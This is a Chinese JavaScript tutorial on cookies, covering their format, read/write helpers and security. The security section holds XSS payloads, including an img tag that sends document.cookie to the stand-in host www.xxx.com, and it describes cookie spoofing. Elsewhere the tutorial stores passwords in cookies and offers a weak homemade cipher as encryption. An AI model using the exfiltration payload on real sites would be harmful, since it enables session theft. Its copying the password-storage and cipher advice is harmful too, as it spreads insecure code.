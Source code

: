 ## **Cookie**

cookie是存储于访问者的计算机中的变量。每当同一台计算机通过浏览器请求某个页面时，就会发送这个cookie。你可以使用 JavaScript来创建和取回cookie 的值。 

你可以把用户的登录名密码存储于cookie中，就可以实现自动登录。也可以用来保存购物车信息。 

## Cookie的特点 

（1）cookie可能被禁用。 

（2）cookie是与浏览器相关的。不同浏览器所保存的cookie也是不能互相访问的。 

（3）cookie可能被用户删除。 

（4）cookie安全性不够高。如果要保存用户名密码等信息时，最好事先经过加密处理。 

（5）存储的数据量 4k 大小，cookie只支持存储string类型的数据。 

（6）简单易用。 

（7）信息存储于用户硬盘，因此可以作为全局变量。

## Cookie格式

cookie就是一串字符串，格式就是键值对，分号隔开，三个属性可有可无。 

```
cookieName=cookieValue;expires=GMTString;path=URLpath;domain=siteDomain 
cookie名称 cookie值 失效日期 可访问url 可访问主机 
```

document.cookie=“cookieName=cookieValue”;//设置cookie 

没有指定失效日期的cookie在浏览器关闭后就消失。 

可访问url指定网站下能够访问cookie的路径。例：/shop 

可访问主机指定可访问cookie的主机名。例：www.163.com和mail.163.com指定为163.com 

注：失效日期由date.toGMTString（）方法取得。

## 写入/读取cookie

写入7天后过期的cookie

```
var date=new Date();
date.setDate(date.getDate()+7);
document.cookie="userName=zhang;expires="+date.toGMTString();
document.cookie="userPws=123456;expires="+date.toGMTString();
读取上边写入的cookie，因为cookie每次是全部获取，所以需要自己写解析cookie的代码。
	var uname,upws;
	var cookiearr=document.cookie.split(";");
	for(var i=0;i<cookiearr.length;i++){
        var coocieItem=cookiearr[i].split("=");
        if(coocieItem[0]=="userName"){
            uname=coocieItem[1];
        } if(coocieItem[0]=="userPws"){
            upws=coocieItem[1];
        }
	}
```

## cookie的其他操作

添加与覆盖：
		浏览器用cookie名称来区别cookie，添加不同名称cookie会一直续在前一个cookie后，同名的cookie会覆盖值。

删除cookie：
		不能直接删除cookie，但是设置失效日期为过去，浏览器会删除cookie。

中文及特殊字符支持：
		使用escape()函数编码cookie值，读取时使用unescape()函数解码。

判断cookie是否存在；
		document.cookie.indexOf(NameOfCookie+"=");//使用字符串函数indexOf

例：document.cookie="str="+escape("i love ajax");相当于document.cookie="str=1%20love%20ajax";

## Json2的方法

JSON2.js文件提供字符串转JSON和JSON转字符串的方法：

JSON.parse()【从一个字符串中解析出JSON对象】 

例子： 

```
var data='{"name":"goatling"}' 

JSON.parse(data) 

结果是： 

{name:"goatling“}
```



JSON.stringify()【从一个JSON对象中解析出字符串】 

例子：

```
var data={name:'goatling'} 

JSON.stringify(data) 

结果是： 

'{"name":"goatling"}‘
```

解析cookie很烦？用JSON结合cookie就会方便很多。

## cookie的安全策略

XSS攻击： 

跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

**cookie的安全策略（攻击代码示例）**

html代码：

```
<body>
<span id="s"></span>
<textarea id="txtId" style="width:200px;height:200px" ></textarea>
<input id="btn" type="button" value="测试" />
</body>
```

script代码：

```
window.onload = function(){
document.getElementById("btn").onclick = function(){
document.getElementById("s").innerHTML = document.getElementById("txtId").value;
} }
```

运行html页面，在文本域里输入：

```
<a href="" onclick="javascript:{alert('dd');for(var i=0;i<10;i++){alert(i)}}" >百度</a>
```

XSS攻击：

```
<script>alert(document.cookie)</script>
<a href="" onclick="javascript:(function(){alert(444);})()">超级</a>
这段代码能够发送当前cookie到www.xxx.com
<img src='http://www.xxx.com?cookie='+document.cookie;/>
```

cookie欺骗：

```
拿到cookie后，分析出用户名和密码，然后修改自己的cookie为分析出的用户名密码，访问网站成功登
录。
```

如何防范：

```
1，Html转码（防止“<”等特殊字符，防止注入js） 2，敏感信息加密
3，cookie和ip地址绑定（cookie检查ip地址，ip和cookie不符的不能登录，需要服务器端配合）
```

加密/解密：

```
//加密 abcd 经过compile() 后 e
function compile(code) 
{ 
var c=String.fromCharCode(code.charCodeAt(0)+code.length); 
for(var i=1;i<code.length;i++){ 
c+=String.fromCharCode(code.charCodeAt(i)+code.charCodeAt(i-1)); 
} 
return(escape(c)); 
} 
//解密
function uncompile(code) 
{ 
code=unescape(code); 
var c=String.fromCharCode(code.charCodeAt(0)-code.length); 
for(var i=1;i<code.length;i++){ 
c+=String.fromCharCode(code.charCodeAt(i)-c.charCodeAt(i-1)); 
} 
return c;
```

## Cookie的封装

设置cookie：

```
function setCookie (key, value, t) {
var oDate = new Date();
oDate.setDate(oDate.getDate() + t);
document.cookie = key + ‘=’ +escape(value) + '; expires=' + oDate.toGMTString()
}
```

```
判断浏览器是否禁用cookie
var cookieEnabled=(navigator.cookieEnabled)? true : false
```

获取cookie：

```
function getCookie (key) {
var arr1 = document.cookie.split(';');
for( var i=0;i<arr1.length; i++ ) {
var arr2 = arr1[i].split('=');
if( arr2[0] == key ){
return unescape(arr2[1]);
} } }
```

```
移除cookie
function removeCookie (key) {
setCookie(key, ' ', -1);
}
```

